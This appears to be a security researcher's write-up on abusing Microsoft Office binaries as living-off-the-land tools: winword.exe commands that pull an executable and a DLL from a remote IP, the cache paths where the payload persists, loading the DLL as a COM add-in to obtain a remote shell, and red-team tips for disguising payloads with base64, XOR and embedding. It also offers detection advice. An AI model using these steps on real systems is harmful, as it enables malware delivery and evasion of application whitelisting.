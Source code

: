 As a part of finding vulnerable endpoints to improve defence, I used to reckon legitimate binaries on any chance of masking for payload download/execute.
I focused my research towards Office binaries (winword/powerpnt/excel), My aim is to download a payload remotely via legitimate binaries by application whitelisting and execute via Office binaries.
I came to know that we can able to open a remote document as Read-Only, I focused on that feature.

1. Payload Download — No proper validation on remote files.
I tried to download a remote file and it opens as Read-Only ,but i wonder is there any cache stored locally?
winword.exe “http://192.168.1.10/test.docx”
I fired up Procmon this time and look for artefacts and found the cache was stored on below 2 locations temporarily.
%localappdata%\Microsoft\Windows\Temporary Internet Files\Content.MSO
%localappdata%\\Microsoft\Windows\Temporary Internet Files\Content.IE5\[random folder]
%localappdata%\Microsoft\Windows\Temporary Internet Files\
This time i tried to download an executable and Winword.exe opens with scrambled strings.
winword.exe “http://192.168.1.10/shell.exe”
I noticed the file was downloaded here %localappdata%\Microsoft\Windows\Temporary Internet Files\Content.MSO and deletes itself once the document closed, This is enough for an attacker to get the payload.
I probed further and found the raw payload was stored in %localappdata%\Microsoft\Windows\Temporary Internet Files\Content.IE5\[random folder]\ as .EXE even after the document closed, Amazing!.
Using this method , An attacker will mask the payload download to evade defence mechanism especially Application whitelisting.

2. Execute the payload in ‘Office’ way — used for defence evasion.
I focused my research on how to execute payload with the help of Office binaries.
This time i downloaded a DLL
winword.exe “http://192.168.1.10/TeamsAddinLoader.dll”
Once the DLL was downloaded , I probed possible ways to execute the DLL via Office binaries, As researched There is a feature we can load Addins to Microsoft office.
I load the DLL payload via Microsoft Office, Awesome again I got the remote shell, When i see the chain of events, Winword.exe -> Rundll32 -> C2, There is no initial visibility on command line that which file rundll32 loaded (Ofcourse we can get those details by looking in to memory)

Steps:
winword.exe ->file ->options ->Add-ins ->manage COM addins -> click GO -> add the dll.
The above 2 features indeed not a vulnerability, but the attackers can use windows legitimate binaries to download and execute the payload, This have been tracking as LOLBINS.
https://youtu.be/yk3gKrgRVEE
As you can see above all payload download and execute are carried on via Office binaries.
But we can recommend Microsoft on first method “Payload Download” to stop downloading/opening when the file was not in supported format.

Investigate the executables which are written by Office binaries
Respect your instinct on suspicious events.
Red Team:
Download the file with document extensions.
Base64 the executable and download with document extensions.
Do the same as XOR’d
Insert the base64 payload to original document.
Split the inserted payload to original document.
Password protect the Base64 embedded document.
